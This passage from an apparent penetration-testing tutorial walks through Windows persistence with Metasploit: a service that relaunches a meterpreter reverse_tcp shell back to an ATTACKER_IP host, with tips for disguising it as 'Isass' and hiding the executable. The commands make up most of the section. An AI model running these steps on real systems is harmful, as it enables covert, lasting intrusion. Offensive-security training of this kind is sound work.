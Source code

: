 
<a id=7.2.5></a>
### Establishing Persistence

Persistence consists of techniques an adversary takes to keep access to systems after it reboots,
loses connection or any other interruption that may make him lose access.

Initial access is not enough. We need to establish persistence.	What if we lose our connection? We lose
all the machines we exploited. 

Let's see how to do it.

```bash
# we'll assume that we have admin access or SYSTEM privileges.
meterpreter > bg
msf6 > search platform:windows persistence
# there are many was in which we can establish persistence in a machine. some of the techniques
# are executed through registry, tasks, and more.
msf6 > use exploit/windows/local/persistence
msf6 exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp
# this particular module only works with 32bit payloads. remember that we can upgrade this
# meterpreter shells via the archmigrate post module.
msf6 exploit(windows/local/persistence_service) > set SERVICE_NAME [SERV_NAM]
# this will be the name of our service. we should try to make look as legitimate as possible.
# something like Isass could do the job. 
msf6 exploit(windows/local/persistence_service) > set EXE_NAME [EXE_NAME]
# we can also give the EXE a name instead of a random string. pick whatever you want.
msf6 exploit(windows/local/persistence_service) > set PATH C:\path\to_our\file.exe
# put the exe in the given path. perhaps C:\Windows\system32, or something more obscure maybe
# inside the %APPDATA% dirs.
msf6 exploit(windows/local/persistence_service) > set SESSION [SESSION_ID]
msf6 exploit(windows/local/persistence_service) > set RETRY_TIME [TIME_IN_SECONDS]
# interval at which our service will execute; default is 5 seconds.
msf6 exploit(windows/local/persistence_service) > set LPORT [PORT_TO_CONNECT]
msf6 exploit(windows/local/persistence_service) > set LHOST [ATTACKER_IP]
msf6 exploit(windows/local/persistence_service) > run
meterpreter > bg
msf6 > sessions -K
# kill it all, lets see if the persistence in place is working.
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT [PORT_IN_PERSISTENCE]
msf6 exploit(multi/handler) > set LHOST [ATTACKER_IP]
# and if everything is in place, we'll get access.
msf6 exploit(multi/handler) > run
# like magic.
```

<a id=7.2.6></a>
### Enabling RDP

If you're at this stage and you don't know what RDP is, check the previous READMEs.
